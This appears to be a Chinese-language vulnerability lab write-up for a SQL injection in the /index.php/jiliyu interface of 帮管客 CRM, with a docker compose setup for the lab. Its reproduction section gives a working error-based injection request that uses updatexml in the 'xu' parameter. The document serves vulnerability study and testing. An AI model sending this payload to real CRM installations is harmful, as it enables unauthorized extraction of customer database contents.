



# 帮管客 CRM jiliyu SQL注入漏洞

帮管客CRM客户管理系统基于先进的CRM营销理念设计，集客户档案、销售记录、业务往来于一身，以凝聚客户关系、提升资源价值为核心，将潜在客户变为现实客户、从而提升销售量、提高用户的满意度，并增加企业竞争力。帮管客CRM是适用于中小企业的通用型客户关系管理系统，融合了帮管客软件长期从事管理软件开发的丰富经验与先进技术，该系统采用领先的B/S(浏览器/服务器)操作方式，使得网络办公不受地域限制。在功能上注重实用、易用、安全、稳定。在性能方面也表现优异，使用普通PC服务器即可实现百人级别的并发应用。 帮管客CRM客户管理系统 采用基于WEB的企业计算，采用php+MySQL进行开发，性能稳定可靠。数据存取集中控制，避免了数据泄漏的可能。采用加密数据传递参数，保护系统数据安全。多级的权限控制，完善的密码验证与登录机制更加强了系统安全性。

帮管客CRM 客户管理系统/index.php/jiliyu 接口存在 sql 注入漏洞，攻击者可通过此漏洞获取数据库敏感信息。

产品官网

https://www.bgk100.com/

参考链接：

- 


## 漏洞环境

执行如下命令启动一个BGJCRM5-v5.1.2-web服务：

```
docker compose up 
```

服务启动后，可访问`http://your-ip:80/`将自动跳转到BGJCRM安装向导界面



## 漏洞复现

需要先登录下后台



之后发送url

`GET /index.php/jiliyu?keyword=1&page=1&pai=id&sou=soufast&timedsc=%E6%BF%80%E5%8A%B1%E8%AF%AD%E5%88%97%E8%A1%A8&xu=and%201=(updatexml(1,concat(0x7e,(select%20md5(123)),0x7e),1)) HTTP/1.1`

